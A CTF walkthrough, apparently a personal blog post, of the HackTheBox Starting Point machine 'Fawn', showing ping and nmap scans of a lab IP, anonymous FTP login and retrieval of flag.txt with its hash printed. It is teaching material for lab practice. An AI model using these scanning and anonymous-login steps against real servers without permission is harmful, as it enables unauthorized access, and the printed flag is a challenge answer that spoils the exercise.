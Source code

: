```yaml
---
title: "HackTheBox - Fawn"
date: 2023-12-24 18:15:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, ftp]
image:
    path: /assets/img/htb/Fawn.png
    alt: Fawn - HackTheBox
---
```


[**Fawn**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Fawn we will learn about **FTP (File Transfer Protocol)**.

## Introduction

- Connect **Fawn** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.137.216

PING 10.129.137.216 (10.129.137.216) 56(84) bytes of data.
64 bytes from 10.129.137.216: icmp_seq=1 ttl=63 time=343 ms
64 bytes from 10.129.137.216: icmp_seq=2 ttl=63 time=239 ms
64 bytes from 10.129.137.216: icmp_seq=3 ttl=63 time=666 ms
64 bytes from 10.129.137.216: icmp_seq=4 ttl=63 time=298 ms

--- 10.129.137.216 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3000ms
rtt min/avg/max/mdev = 238.540/386.458/666.284/165.747 ms
```

### Nmap

To be able to see all open ports, we can use `Nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port. 

```bash
❯ nmap -sCV 10.129.137.216

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-24 18:42 WIB
Nmap scan report for JSN.JaringanKU (10.129.137.216)
Host is up (1.6s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.104
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.91 seconds
```

## Foothold

OK, you can see the open port 21/tcp which is the FTP service. We can generally connect to FTP by using the username `anonymous` and without using a password.

### FTP

```bash
❯ ftp 10.129.137.216

Connected to 10.129.137.216.
220 (vsFTPd 3.0.3)
Name (10.129.137.216:huda): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 6,8e-05 seconds (460 kbytes/s)
ftp> bye
221 Goodbye.
```

After downloading the file, exit FTP and check your working directory.

```bash
❯ ls
 flag.txt

❯ cat flag.txt
035db21c881520061c53e0536e44f815
```
